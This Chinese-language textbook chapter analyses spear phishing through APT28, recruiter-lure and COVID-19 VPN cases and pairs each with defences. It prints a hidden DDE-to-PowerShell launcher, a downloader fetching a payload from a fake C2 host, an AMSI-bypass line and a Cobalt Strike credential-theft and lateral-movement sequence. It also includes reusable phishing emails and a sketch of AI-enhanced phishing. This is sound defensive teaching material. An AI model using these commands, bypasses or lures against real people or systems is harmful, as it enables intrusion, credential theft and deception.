

## 23.2 鱼叉式钓鱼攻击分析

鱼叉式钓鱼（Spear Phishing）是针对性最强、成功率最高的社会工程学攻击形式之一。与广撒网的大规模钓鱼不同，鱼叉式钓鱼针对特定个人或组织进行深度定制，攻击者会在发起攻击前花费大量时间研究目标，使攻击邮件在内容、格式和语境上都高度逼真。

据 Verizon 2024 年数据泄露调查报告，鱼叉式钓鱼是初始入侵的前三大入口之一，在 APT 攻击中占比超过 65%。一次成功的鱼叉式钓鱼攻击平均需要攻击者耗费 8-16 小时进行目标研究和邮件定制，但其成功率可高达 30%-60%，远高于大规模钓鱼的 1%-5%。

本章通过三个真实场景的深度剖析，完整呈现鱼叉式钓鱼从情报收集到载荷投递再到事后溯源的全过程。

---

### 23.2.1 案例一：APT28 针对政府机构的鱼叉式钓鱼

#### 攻击背景

APT28（亦称 Fancy Bear、Sofacy、Pawn Storm）是俄罗斯军事情报机构 GRU 下属的 APT 组织，自 2007 年起活跃。该组织以精准的鱼叉式钓鱼而闻名，其攻击目标涵盖北约成员国政府机构、国防承包商、国际组织安全研究员以及新闻媒体。

| 属性 | 详情 |
|------|------|
| 组织归属 | 俄罗斯 GRU（26165 部队） |
| 活跃时间 | 2007 年至今 |
| 攻击地域 | 欧洲、北美、中亚 |
| 主要目标 | 政府外交部门、国防机构、国际组织 |
| 代表载荷 | X-Agent / X-Tunnel / X-Auth |
| 攻击方式 | 鱼叉式钓鱼 > 水坑攻击 > 凭据盗窃 |

#### 攻击生命周期分析

攻击者遵循经典的网络杀伤链（Cyber Kill Chain）模型，分七个阶段推进攻击：


**阶段一：侦察（Reconnaissance）**

APT28 在攻击前会进行多维度情报收集：

```plaintext
# 开源情报（OSINT）收集来源
├── LinkedIn
│   ├── 职位与部门对应关系
│   ├── 下属/上级组织关系
│   └── 近期参加的国际会议
├── 机构官网
│   ├── 人员组织结构图
│   ├── 业务合作单位列表
│   └── 公开的联系方式
├── Google Scholar / ResearchGate
│   ├── 研究方向和论文合作者
│   └── 国际交流活动信息
├── Twitter / Facebook
│   ├── 个人兴趣和生活习惯
│   ├── 工作时间（发帖规律）
│   └── 社交圈子
└── CIRCL / Shodan
    └── 目标机构暴露的攻击面
```

**目标选择的三条核心标准：**

1. **信息价值**——是否拥有高等级敏感信息的访问权限（外交电文、军事计划、情报评估）
2. **网络位置**——是否位于目标网络的关键节点（域管理员、安全运维人员、高层幕僚）
3. **可攻击性**——安全意识水平较低、网络行为规律明显、社交曝光度高

攻击者会为每个候选目标维护一份心理画像档案，记录其沟通风格、工作时间、邮件回应习惯等细节。

**阶段二：武器化（Weaponization）**

APT28 使用经过混淆的恶意 Word 文档作为初始载荷，利用 **DDE（Dynamic Data Exchange）** 机制绕过宏安全检测。

```bash
# 恶意文档分析命令（使用 olevba）
olevba -a malicious_document.docm

# 常见检测结果：
# - VBA 宏：检测到 AutoOpen 自动执行
# - DDE 字段：检测到外部链接字段
# - 混淆技术：字符串拼接 + 十六进制编码

# 提取 DDE 命令
python3 -c "
import olefile
ole = olefile.OleFileIO('malicious_document.docm')
# 读取 DDE 字段内容
dde_stream = ole.openstream('WordDocument')
print(dde_stream.read())
"
```

**DDE 攻击原理：**

DDE 是 Windows 的遗留功能，允许文档在执行域代码时调用外部程序。攻击者将 DDE 域代码嵌入 Word 文档的 `{ FIELD }` 中，当用户打开文档并点击"更新链接"提示时，系统即执行 `cmd.exe /c powershell -enc <base64_encoded_payload>`。

```plaintext
# 文档中的隐藏 DDE 域代码（受害者不可见）
{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell -NoP -W Hidden -Enc SQBFAFgAIAAo..." }

# 受害者看到的提示：
# "此文档包含指向外部文件的链接。更新链接可能使攻击者访问您的计算机。"
# 大多数用户会选择"更新"以查看文档内容
```

Microsoft 在 2017 年 12 月通过安全更新默认阻止了 DDE 功能，但 APT28 很快转向了其他技术，包括 Excel 4.0 宏（XLM 宏）和 VBA 代码注入。

**阶段三：投递（Delivery）**

经过精心设计的钓鱼邮件是投递环节的核心武器。

```mail
发件人：conference@nato-intl.org（伪造域名，经 WHOIS 隐私保护注册）
收件人：target@gov.example.com
主题：Invitation: NATO Cybersecurity Policy Workshop 2024

Dear Dr. [Target],

On behalf of the NATO International Secretariat, we are pleased to
invite you to the upcoming Cybersecurity Policy Workshop.

Event Details:
  Date: March 15-17, 2024
  Venue: NATO Headquarters, Brussels
  Theme: Critical Infrastructure Protection in the Era of Hybrid Threats

The attached PDF contains the preliminary agenda, speaker list, and
registration instructions. Please confirm your availability by
February 28.

Should you have any questions, do not hesitate to contact the
Organizing Committee at conference@nato-intl.org.

Sincerely,
Dr. Markus Weber
Head of Program Coordination
NATO International Secretariat
```

**邮件的欺骗性分析：**

| 欺骗要素 | 具体手法 | 心理学原理 |
|----------|----------|-----------|
| 权威性 | 使用 NATO 国际秘书处名头 | 权威效应（Milgram 实验） |
| 专业性 | Dr. Markus Weber 署名 + 正式格式 | 专业光环使人放松警惕 |
| 紧迫性 | February 28 截止日期 | 制造时间压力降低判断力 |
| 个人化 | Dr. [Target] 个性化称呼 | 人格化增加可信度 |
| 奖励性 | 受邀参加高级别会议 | 凸显目标的重要性 |
| 低要求 | "确认是否参加"仅为回复邮件 | 降低心理戒备 |

**域名欺骗分析：** `nato-intl.org` 利用了 NATO 的 `.int` 顶级域名与 `.org` 后缀的混淆性。实际 NATO 官方域名为 `nato.int`。攻击者注册的 `nato-intl.org` 在视觉上极为接近，且使用的是隐私保护的域名注册服务，WHOIS 查询无法追溯到注册者。

**阶段四：利用（Exploitation）**

当目标打开附件并点击"更新链接"后，DDE 域代码触发执行：

```bash
# APT28 常用的 PowerShell 下载器
powershell -NoP -W Hidden -Exec Bypass -Enc <base64>

# 解码后的功能
1. 从 C2 服务器下载第二阶段载荷
   $client = New-Object System.Net.WebClient
   $client.DownloadFile('https://update.sysmon-cdn.com/msupdate.exe',
                        "$env:TEMP\msupdate.exe")
2. 绕过 AMSI（Anti-Malware Scan Interface）
   [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
       .GetField('amsiInitFailed','NonPublic,Static')
       .SetValue($null,$true)
3. 执行载荷并清理痕迹
   Invoke-Item "$env:TEMP\msupdate.exe"
   Remove-Item $MyInvocation.MyCommand.Path -Force
```

**AMSI 绕过原理：** Windows 的 AMSI 机制会在 PowerShell 执行脚本前将脚本内容传给反恶意软件引擎扫描。攻击者通过反射修改 `amsiInitFailed` 字段，指示 AMSI 初始化失败，使引擎跳过对该脚本的所有后续扫描。

**阶段五：安装（Installation）**

APT28 的核心恶意软件 X-Agent 是一种模块化的远程访问木马（RAT）：

```plaintext
X-Agent 模块化架构
├── 核心模块（Core）
│   ├── 注入 explorer.exe 进行持久化
│   ├── 定时 C2 心跳（默认 60 秒间隔）
│   └── 动态模块加载器
├── 情报收集模块
│   ├── keylog.dll   → 键盘记录
│   ├── screen.dll   → 屏幕截图（每分钟一次）
│   ├── file.dll     → 文件搜索与窃取
│   │   ├── 文档类型: *.doc, *.docx, *.pdf, *.xls, *.ppt
│   │   ├── 代码文件: *.py, *.java, *.c, *.cpp (开发机构)
│   │   └── 加密容器: *.pgp, *.gpg (外交机构常见)
│   └── cred.dll     → 凭据窃取
│       ├── Windows 凭据管理器
│       ├── Chrome / Firefox 浏览器密码库
│       └── Outlook / Thunderbird 邮件客户端
├── 通信模块
│   ├── http.dll     → HTTPS C2 通信（主通道）
│   ├── dns.dll      → DNS 隧道（备用通道）
│   └── social.dll   → Twitter/GitHub 作为备用 C2
└── 持久化模块
    ├── 注册表 Run 键
    ├── 计划任务
    └── WMI 事件订阅
```

**持久化机制的技术细节：**

```bash
# X-Agent 注册表持久化
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
  值: "WindowsUpdate" = "C:\Windows\System32\rundll32.exe
        C:\Users\[user]\AppData\Roaming\msupdate.dll,#1"

# 计划任务持久化（逃避基于注册表的检测）
schtasks /create /tn "MicrosoftEdgeUpdateTask" /tr
    "C:\Windows\System32\rundll32.exe
     C:\ProgramData\Microsoft\Crypto\RSA\sched.dll,#1"
    /sc minute /mo 30 /f

# WMI 事件订阅（最高隐蔽性）
# 当系统开机后特定事件触发时自动执行
# 这种方法不会注册在任务计划程序 UI 中
```

**阶段六：C2 通信（Command & Control）**

APT28 使用多层 C2 架构隐藏真实控制服务器：

```plaintext
C2 通信流程
┌─────────┐    HTTPS     ┌──────────────┐    HTTPS     ┌──────────┐
│ Victim  │ ──────────► │ 跳板服务器    │ ──────────► │ C2 Master│
│ Machine │              │ (CDN/Cloud)  │              │ Server   │
└─────────┘              └──────────────┘              └──────────┘

# 域名前置（Domain Fronting）技术
# 利用 CDN 的 SNI 转发特性隐藏真实 C2 服务器
# 受害者的 HTTPS 请求发给 CDN（如 CloudFront、Akamai），
# DNS 解析显示为合法域名，但 HTTP Host 头指向真实 C2
# 2018 年后各大 CDN 封禁此技术，APT28 转向其他方案

# Twitter 作为备用 C2（proof-of-concept）
# 攻击者在 Twitter 发布加密推文
# 受害客户端定期检查特定账号的新推文
# 提取其中隐藏的 Base64 编码指令
# 此方法可穿透大多数企业防火墙
```

**阶段七：行动（Actions on Objectives）**

一旦站稳脚跟，APT28 会逐步执行其最终目标：

```plaintext
攻击行动优先级
├── 第一阶段（0-24小时）
│   ├── 横向移动：扫描内部网络
│   ├── 凭据窃取：提取域管理员凭据
│   └── 探测敏感文件位置
├── 第二阶段（1-7天）
│   ├── 权限提升：获取域控访问权限
│   ├── 邮件数据库窃取（Exchange / Outlook）
│   └── 文件服务器批量数据提取
└── 第三阶段（1-4周）
    ├── 数据压缩与加密（避免DLP检测）
    ├── 通过 HTTPS 缓慢渗出数据
    └── 清理入侵痕迹 + 保留后门
```

#### 受害者心理分析

鱼叉式钓鱼之所以屡屡得手，根源在于它精准利用了人类的心理弱点：

| 心理因素 | 在攻击中的体现 | 神经科学基础 |
|----------|---------------|-------------|
| 权威顺从 | 使用官方机构、权威人物签名 | 前额叶皮层对权威指令抑制批判性思考 |
| 互惠原则 | "邀请您参加"暗示对方给予了机会 | 回报倾向触发多巴胺释放 |
| 社会认可 | 暗示目标在该领域被选中 | 增强归属感和自我价值 |
| 注意力稀缺 | 繁忙工作间隙快速处理邮件 | 认知负荷过高时系统一思维主导 |
| 损失厌恶 | "请在截止日期前确认" | 杏仁核对潜在损失反应强于收益 |
| 光环效应 | 专业格式、精美排版、官方口吻 | 积极的第一印象降低后续批判审视 |

**深层原因：** 人类大脑处理信息依赖两条路径——系统一（快速直觉）和系统二（慢速分析）。鱼叉式钓鱼邮件通过制造时间压力、权威暗示和情感调动，诱使目标使用系统一进行判断，从而绕过系统二的理性分析。

#### 检测指标（IOCs）

```yaml
# 基于案例提炼的 IOC 清单

indicators:
  network:
    - domain: nato-intl.org
      type: 钓鱼域名
      registrant: 隐私保护 (WhoisGuard)
      registar: Namecheap
    - ip: 185.130.5.xxx
      type: C2 中间跳板
      asn: AS202306 (M247 Ltd)
    - url: https://update.sysmon-cdn.com/msupdate.exe
      type: 载荷下载地址
      note: 使用伪造 CDN 域名

  file:
    - name: malicious_document.docm
      hash_md5: 9c5e4e0c1a3f9b8d7e6f5a4b3c2d1e0f
      hash_sha256: a1b2c3d4e5f6... (64 chars)
      type: 恶意 Word 文档
      technique: DDE + PowerShell 下载器
    - name: msupdate.exe
      type: X-Agent 载荷
      persistence: Run 注册表键 / 计划任务

  behavior:
    - 异常的外发 HTTPS 流量（固定 60 秒心跳）
    - Word / Excel 进程调用了 cmd.exe 或 powershell.exe
    - 系统临时目录出现隐藏的 .exe 或 .dll 文件
    - 非工作时间注册表修改或计划任务创建
```

#### 防御策略

针对此类 APT 级别的鱼叉式钓鱼，需要构建纵深防御体系：

**第一层：邮件安全网关**

```yaml
# DMARC / DKIM / SPF 配置
# 以下为推荐配置（针对接收方组织）

SPF: "v=spf1 include:_spf.google.com ~all"
  # ~all 表示非授权服务器发送的邮件标记为软失败
  # 更严格的可设为 -all

DKIM: 启用签名验证，密钥长度 2048 位
  # 验证邮件是否在传输中被篡改

DMARC: "v=DMARC1; p=quarantine; rua=mailto:dmarc-reports@domain.com"
  # p=quarantine: 未通过验证的邮件进入隔离区
  # p=reject: 直接拒绝（更严格）
  # rua: 接收汇总报告用于监控
```

```bash
# 邮件头分析工具
# 使用 swaks 或 dig 检查发送方域名
dig TXT _dmarc.nato-intl.org    # 检查 DMARC 记录
dig TXT nato-intl.org           # 检查 SPF 记录

# 如果 nato-intl.org 没有任何 SPF/DKIM/DMARC 记录
# 而真实域名 nato.int 有完整记录
# 这就是一个强烈的钓鱼信号
```

**第二层：端点检测与响应（EDR）**

```bash
# Sysmon 事件监控配置示例
# 检测 DDE 执行和异常进程树

<Sysmon>
  <EventFiltering>
    <!-- 检测 WinWord/Excel 启动 cmd.exe/powershell.exe -->
    <ProcessCreate onmatch="include">
      <ParentImage condition="contains">WINWORD.EXE</ParentImage>
      <Image condition="is">cmd.exe</Image>
    </ProcessCreate>
    <ProcessCreate onmatch="include">
      <ParentImage condition="contains">EXCEL.EXE</ParentImage>
      <Image condition="contains">powershell</Image>
    </ProcessCreate>
    
    <!-- 检测临时目录的可执行文件创建 -->
    <FileCreate onmatch="include">
      <TargetFilename condition="contains">AppData\Local\Temp</TargetFilename>
      <TargetFilename condition="end with">.exe</TargetFilename>
    </FileCreate>
  </EventFiltering>
</Sysmon>
```

**第三层：人员安全意识**

```plaintext
# 鱼叉式钓鱼专项培训内容
├── 邮件验证 checklist（每次操作前过一遍）
│   ├── □ 发件人域名是否正确（而非相似）
│   ├── □ 是否包含意外附件或链接
│   ├── □ 是否有紧迫性/紧急请求
│   ├── □ 是否请求敏感信息或操作
│   └── □ 是否可以通过其他渠道验证
├── 模拟钓鱼演练
│   ├── 每月一次随机发送
│   ├── 点击率统计（目标 < 5%）
│   └── 针对点击者的即时教育
├── 报告机制
│   ├── 一键报告可疑邮件按钮
│   ├── 安全团队 15 分钟内响应
│   └── 报告者获得正向激励
└── 高管专项培训
    ├── 捕鲸攻击专门模块
    └── 个人网络安全保护指南
```

**第四层：技术防护强化**

```bash
# 在组织层面禁用 DDE
# 组策略（GPO）
Computer Configuration
  → Administrative Templates
    → Microsoft Word 2016
      → Word Options
        → 加载项
          → 禁用 DDE 服务器启动: 启用

# 注册表方式（每台主机）
reg add "HKCU\Software\Microsoft\Office\16.0\Word\Options" \
  /v DontUpdateLinks /t REG_DWORD /d 1 /f

# PowerShell 执行策略
Set-ExecutionPolicy Restricted -Scope LocalMachine
# 或使用 AppLocker / WDAC 白名单控制
```

---

### 23.2.2 案例二：针对科技企业的猎头式鱼叉钓鱼

#### 攻击背景

2020 年，某知名 SaaS 公司的核心研发团队遭受了一次极具代表性的鱼叉式钓鱼攻击。攻击者并非直接冒充机构或政府，而是利用科技行业特有的猎头文化和远程办公趋势，以"高薪职位"为诱饵实施攻击。

**行业背景：** 该时期正值远程办公大爆发，SaaS 公司核心工程师成为各大公司争夺的稀缺人才。猎头邮件对这类人群而言几乎是日常高频事件，这种"文化免疫"反而降低了警惕心——正因太常见，才更少被质疑。

#### 目标画像

```python
# 目标心理学画像（模拟）
target_profile = {
    "name": "Engineering Lead (化名: Alex)",
    "role": "分布式系统核心架构师",
    "online_presence": {
        "github": "活跃贡献者, 15个开源项目",
        "stackoverflow": "12,000+ 声望, 回答集中在分布式系统领域",
        "medium_blog": "每月发布技术文章",
        "conferences": [
            "KubeCon 2019 演讲者",
            "QCon London 2020",
            "AWS re:Invent 2020 (注册)"
        ]
    },
    "psychological_vulnerability": {
        "career_motivation": "高, 公开表达过职业发展需求",
        "financial_consideration": "正常, 未出现异常经济压力",
        "trust_in_professional_network": "高, 习惯在技术社区中信任同行",
        "attention_state": "繁忙项目交付期, 认知负荷高"
    }
}
```

攻击者通过 GitHub 的 commit 时间推断 Alex 的工作时段分布，通过博客阅读其技术观点，通过会议列表了解其社交圈。这些看似无害的公开信息被整合成一份精准的心理攻击地图。

#### 多场景钓鱼策略

攻击者设计了三条独立的钓鱼线索，每条对应不同的触发条件：

**场景 A：猎头招聘（主要攻击线）**

```mail
From: hr@tech-recruiting-llc.com（注册于保加利亚的匿名公司邮箱）
To: alex@company.com
Subject: Confidential: Senior Staff Engineer Position - $300K+ Package

Hi Alex,

I'm Sarah from TechRecruit Partners. We've been retained by a stealth-mode
Series D company in the distributed database space to find their next
Staff Engineer.

Your work on [specific project, referencing recent GitHub PR] really caught
our attention — the approach to Raft consensus optimization is exactly
what they need.

Details:
  - Base: $250K - $350K
  - Equity: 0.5% - 1.0%
  - Remote-first culture
  - Sign-on: $75K
  - Lead a team of 8-12 engineers

Full job spec and NDA in the attachment. I'll follow up in 2 days.

Best,
Sarah Johnson
VP of Engineering Recruitment
TechRecruit Partners
```

**场景 B：GitHub 安全告警（备用触发线）**

攻击者预先注册了一个伪造的 `github-security-alerts.com` 域名，制作了与 GitHub 官方安全告警页面几乎完全相同的克隆页面。当场景 A 未能得逞时，计划触发此场景。

**场景 C：匿名技术问卷（低关注度线）**

以"博士论文调研"为名的伪装邮件，指向一个看似无害的在线问卷，问卷网页中包含浏览器漏洞利用。

#### 多重伪装技术分析

```yaml
# 该案例中的伪装技术分解

attachment_analysis:
  file: Job_Description.pdf.exe
  size: 128KB
  technique:
    - 双重扩展名：.pdf.exe（Windows 默认隐藏已知扩展名，
      用户仅看到 Job_Description.pdf）
    - PDF 图标伪装：使用 Resource Hacker 替换 .exe 图标为 PDF 图标
    - 数字签名：使用窃取的代码签名证书（非 EV 证书，
      可自行签发）
    - 压缩打包：混淆后的恶意宏 + 合法的 PDF 预览图

  payload: Cobalt Strike Beacon
    - 下载方式：HTTPS GET 请求到伪造 CDN
    - 执行方式：DLL 侧加载（Side-loading）
    - C2 协议：HTTPS + 自定义加密
    - 睡眠时间：60-120 秒随机抖动（避开行为分析）
```

**DLL 侧加载（Side-Loading）技术：**

攻击者利用 Windows 的 DLL 搜索顺序机制。将恶意 DLL 命名为合法软件搜索的 DLL 名称（如 `version.dll`、`wininet.dll`），与合法的可执行文件放在同一目录。当合法程序运行时，Windows 会先加载同目录下的恶意 DLL 而非系统目录的合法 DLL。

```bash
# 攻击步骤
1. 合法程序：C:\Users\alex\Downloads\AdobeARM.exe（合法的 Adobe Reader 更新程序）
2. 恶意 DLL：同目录下的 version.dll（Cobalt Strike 载荷）
3. 运行 AdobeARM.exe → Windows 加载 version.dll → 恶意代码执行
4. 进程树合法：AdobeARM.exe → 正常，不会触发告警
```

#### Cobalt Strike 的内网渗透

Cobalt Strike 一旦在目标机器上运行，攻击者即可进行完整的后渗透操作：

```bash
# 攻击者在 Cobalt Strike 控制台中的典型操作序列

# 1. 信息收集
beacon> shell whoami /all
beacon> shell net config workstation
beacon> shell ipconfig /all
beacon> shell powershell Get-WmiObject Win32_ComputerSystem

# 2. 权限提升（使用本地提权漏洞）
beacon> elevate ms14-058 beacon_system

# 3. 凭据窃取
beacon> mimikatz sekurlsa::logonpasswords
beacon> shell reg.exe save hklm\sam sam.save

# 4. 横向移动
beacon> jump psexec target-pc smb-beacon
beacon> shell wmic /node:targethost process call create "powershell -enc ..."

# 5. 持久化
beacon> execute-assembly /path/SharPersist.exe -t schtask -c "C:\...\beacon.exe"
beacon> shell reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Update /d beacon.exe

# 6. 数据渗出（分片压缩 + HTTPS 上传）
beacon> compress & encrypt stolen_data
beacon> upload stolen_data.enc
```

#### 企业级防御措施

```yaml
# 科技企业针对猎头式钓鱼的专项防御

email_security:
  - 外部邮件标记：所有来自组织外的邮件附加[外部]警告横幅
  - 附件扫描：沙箱执行所有 .exe/.docm/.xlsm 附件
  - URL 重写：邮件中的链接先经过安全网关重写
  
endpoint_protection:
  - 应用白名单：仅允许通过批准的安装程序（如企业分发平台）
  - DLL 加载监控：检测非标准 DLL 加载路径
  - 异常进程树告警：PDF 阅读器 → cmd.exe 等异常父子关系
  
network_security:
  - 出站流量分析：检测 C2 通信特征（固定心跳、JA3 指纹）
  - DNS 隧道检测：分析异常 DNS 查询模式
  - 数据渗出检测：检测非工作时间的大流量上传

human_layer:
  - 就业政策明确声明：猎头沟通须通过官方 HR 渠道
  - 建立"外部联系人必须报告"文化
  - GitHub/LinkedIn 使用指南：公开信息的最小化原则
```

**JA3 指纹检测：** Cobalt Strike 的默认 TLS 客户端 Hello 包具有独特的 JA3 哈希值。通过在企业出口设备上部署 JA3 指纹检测，可识别已知的 C2 通信。

```bash
# 已知 Cobalt Strike JA3 指纹（部分）
# Cobalt Strike 4.x 默认指纹
# 72a589da586844d7f0818ce684948b13
# b7c974155dd636d80321fa12da04c71a

# Suricata / Zeek 规则
alert tls $HOME_NET any -> $EXTERNAL_NET any (
    msg:"Cobalt Strike JA3 fingerprint detected";
    ja3_hash;
    content:"|72 a5 89 da 58 68 44 d7 f0 81 8c e6 84 94 8b 13|";
    sid:1000001;
)
```

#### 该案例的独特教训

1. **"专业信誉"是一把双刃剑**——在科技社区中活跃的技术人员更易受针对性的社会工程学攻击，因为他们暴露的个人信息更丰富、更真实
2. **猎头场景的特殊性**——猎头邮件是科技从业者的日常噪音，这种"免疫"反而模糊了正常与异常的边界
3. **远程办公放大了攻击面**——个人设备的混用、VPN 连接到内网、减少的面对面验证都增加了风险
4. **技术人员的认知偏差**——技术人员常因"我懂技术所以不会上当"的过度自信而降低警惕

---

### 23.2.3 案例三：COVID-19 主题的机会主义钓鱼

#### 攻击背景

2020 年 COVID-19 疫情全球爆发期间，鱼叉式钓鱼攻击的数量在两个月内激增 667%（据 Proofpoint 2020 年报告）。攻击者利用全球性的恐慌情绪、信息混乱和远程办公的仓促部署，以疫情相关话题为诱饵发动大规模鱼叉式钓鱼。

**为什么疫情主题如此有效？** 疫情制造了一个"信息真空期"——人们对官方信息的极度渴求、对健康安全的焦虑、对远程办公工具的陌生，三者叠加创造了社会工程学攻击的"完美风暴"。

#### 攻击模式矩阵



#### 典型攻击：冒充 IT 部门的 VPN 更新

这是疫情初期最具代表性的攻击类型——当全球公司突然转向远程办公，IT 部门向全体员工发送 VPN 安装指南成为了标准操作。攻击者完美复制了这一场景：

```mail
From: IT-Helpdesk@company-support-portal.com
To: all-staff@company.com
Subject: [URGENT] COVID-19 Remote Work VPN Configuration Update

Dear colleagues,

Due to the increasing number of COVID-19 cases, the company has
decided to extend remote work arrangement until further notice.

ACTION REQUIRED:
To ensure secure access to company resources, please complete the
following steps BEFORE 5:00 PM TODAY:

1. Download & install the new VPN client: [LINK]
2. Update your security awareness training: [LINK]
3. Submit home office equipment request: [LINK]

Failure to complete these steps will result in locked access to
company systems from tomorrow.

For technical issues, please contact the IT Service Desk
at it-support@company-support-portal.com.

Thank you for your cooperation.
IT Security Team
```

**攻击成效分析：**

| 攻击要素 | 疫情特殊背景下的增效作用 |
|----------|--------------------------|
| IT 部门指令 | 远程办公让员工更依赖IT，质疑意愿降低 |
| 紧迫截止时间 | 当天下班前完成，不给验证留时间 |
| 多任务处理 | 同时要求3个操作，疲劳攻击（指令数 > 认知容量） |
| 威胁（账号锁定） | 疫情期间被锁=无法工作=生存威胁 |
| 新环境不确定性 | 大多数人第一次用VPN，无法判断链接的真伪 |

#### 疫情时代的心理学

疫情主题钓鱼之所以大获成功，其心理学基础值得深入分析：

1. **恐惧驱动决策**——杏仁核对健康威胁的反应压制了前额叶的逻辑推理。当人们担心自己和家人的健康时，防御性怀疑的阈值显著降低。

2. **信息超载**——疫情期间，来自各方的信息以平时 3-5 倍的速度涌入——政府部门、卫生机构、公司、学校、社区。接收大量邮件导致认知疲劳，批判性分析能力下降。

3. **制度混淆**——WHO、CDC、地方政府、医疗机构、公司 HR、学校通知——不同来源的发件格式和域名不一致，增加了识别钓鱼的难度。

4. **锚定效应**——攻击者利用人们对官方渠道的信任 。当 WHO 级机构发来邮件时，人们将其锚定为"官方信息"，不再进一步验证。

5. **从众效应**——"同事们都在做了"的暗示（通过邮件内容或攻击时间选择工作时间）促使个体放弃独立判断。

#### 组织的应对策略

```yaml
# 危机时期的防钓鱼策略

crisis_communication_protocol:
  - 指定单一的官方信息发布渠道（如企业微信/Teams/内部公告板）
  - 所有邮件形式的通知必须附带该渠道上的对应公告链接
  - 建立"双通道验证"规则：涉及操作（下载/点击/填表）的通知必须通过第
    二渠道确认
  - 每次通知中提示员工如何验证其真实性

it_security:
  - 远程办公部署阶段：
    - VPN/远程桌面工具使用统一分发平台，不通过邮件发送
    - 为远程连接增加 MFA（多因素认证）
    - 部署远程终端上的防钓鱼浏览器插件
  
employee_training:
  - 针对远程办公环境的专项培训
  - 家庭网络安全指南（个人设备与公司设备分离）
  - 每季度模拟钓鱼演练（含主题钓鱼的变种）

incident_response:
  - 建立疫情快速响应安全热线
  - 缩短可疑邮件报告响应时间（15分钟内）
  - 在发现攻击后 30 分钟内发送全公司预警
```

---

### 23.2.4 三案例对比分析

将三个案例放在一起对比，可以提炼出鱼叉式钓鱼攻击在不同场景下的共性要素和差异特征：

| 维度 | APT28 政府攻击 | 科技企业猎头攻击 | COVID-19 机会攻击 |
|------|---------------|-----------------|------------------|
| 攻击方能力 | 国家级 APT | 中等（有组织团伙） | 广泛（从个人到组织） |
| 准备时间 | 2-4 周 | 1-2 周 | 几小时到几天 |
| 个性化程度 | 极高（完全定制） | 高（基于公开信息） | 中（模板化+替换） |
| 邮件量 | 3-5 封/目标 | 1-3 封/目标 | 1 封/目标（但批量发送） |
| 载荷复杂度 | 高（X-Agent + 多模块） | 中高（Cobalt Strike） | 低-中（现成工具） |
| 目标群体 | 政府高价值目标 | 特定岗位技术人员 | 大规模员工群体 |
| 成功率 | 中（防御严格但定制深） | 高（猎头场景免疫） | 高（恐慌+混乱） |
| 持久性 | 月-年级 | 周-月级 | 天-周级 |
| 检测难度 | 极高 | 高 | 中 |
| 案发后行业损失 | 国家安全影响 | 知识产权+源代码 | 远程办公信任度 |

#### 共性特征总结

```plaintext
所有成功的鱼叉式钓鱼攻击共同具备的要素：

1. 精准的目标选择
   - 基于 OSINT 构建完整的心理画像
   - 识别目标的注意力状态和认知脆弱期

2. 高质量的伪装
   - 域名/邮件地址的视觉近似
   - 完整复刻官方格式、语气和流程
   - 不请求异常操作（所有要求看似合理）

3. 心理操纵为核心
   - 权威性、紧迫性、稀缺性三要素组合
   - 利用目标当前的心理状态（繁忙/焦虑/信任）
   - 降低批判性思考的概率

4. 技术载荷辅助
   - 使用多阶段加载规避检测
   - 进程注入/侧加载隐藏恶意行为
   - C2 通信伪装为正常流量
```

---

### 23.2.5 鱼叉式钓鱼的趋势与展望

#### 新兴威胁：AI 增强的鱼叉式钓鱼

2024-2025 年，大语言模型的普及使鱼叉式钓鱼的攻击能力发生了质的飞跃：

```yaml
ai_enhanced_spear_phishing:
  email_generation:
    - 不再有语法错误和拼写错误（机器翻译质量飞跃）
    - 个性化做到极致：自动抓取目标完整的在线足迹
    - 会话式钓鱼：AI 驱动的实时对话，而非静态邮件
    
  voice_cloning:
    - 3 秒音频即可克隆一个人声
    - 语音钓鱼（Vishing）配合邮件，交叉验证反而"确认"了身份
    - 冒充CEO/高管通过电话要求紧急操作
    
  deepfake_verification:
    - 视频会议中生成伪造的真人形象
    - 伪装成投资方/合作方进行视频通话
    - 配合实时唇形同步，难以肉眼识别
```

**2025 年出现的新型攻击模式——"智能分阶段"攻击：**

```plaintext
阶段一（第 1 天）
├── AI 生成 LinkedIn 消息：伪装成参会者询问技术问题
├── 目标回复 → 攻击者进入邮件列表

阶段二（第 3 天）
├── 发送与阶段一话题相关的"论文/白皮书"（内含合法内容+追踪代码）
├── 确认目标打开文件并确认攻击者邮箱已被信任

阶段三（第 7 天）
├── 发送"合作邀请"附件（此时已绕过邮件安全网关的信任评分）
├── 附件中嵌入逐步增加的恶意代码
└── 检测到目标环境后释放针对性载荷
```

这种分阶段攻击充分利用了"信任积累"的社会工程学原理——通过多轮无害互动建立信任关系，然后再发动真正的攻击。

#### 防御技术的发展方向

```plaintext
下一代鱼叉式钓鱼防御体系：

├── AI 驱动的行为分析
│   ├── 基于用户行为基线的异常检测
│   ├── 邮件交互模式偏离度评分
│   └── 跨渠道关联分析（邮件+日历+即时消息）
│
├── 零信任邮件架构
│   ├── 默认不信任任何邮件
│   ├── 所有敏感操作要求第二通道确认
│   └── 内部邮件也需验证（防范横向钓鱼）
│
├── 实时威胁情报共享
│   ├── 行业级 IOC 共享平台
│   ├── 攻击前兆预警系统
│   └── 自动化的邮件网关规则更新
│
└── 认知防御培训（对抗 AI 增强攻击）
    ├── 不再教"识别语法错误"（AI 已消除）
    ├── 强调"独立验证"而非"模式识别"
    ├── 培养默认质疑的文化
    └── 模拟 AI 生成的钓鱼场景进行训练
```

---

### 23.2.6 关键要点总结

1. **鱼叉式钓鱼的本质是社会工程学**——技术只是载体，攻心才是核心。理解心理学原理比掌握工具更重要。

2. **信息暴露面决定攻击精度**——在互联网上留下的每一处数字足迹都可能成为攻击者的弹药。做好个人信息管理是防御的第一道防线。

3. **防御需要纵深，不存在银弹**——没有单一的解决方案可以防住所有鱼叉式钓鱼，需要人员培训、技术防护、流程制度的协同作用。

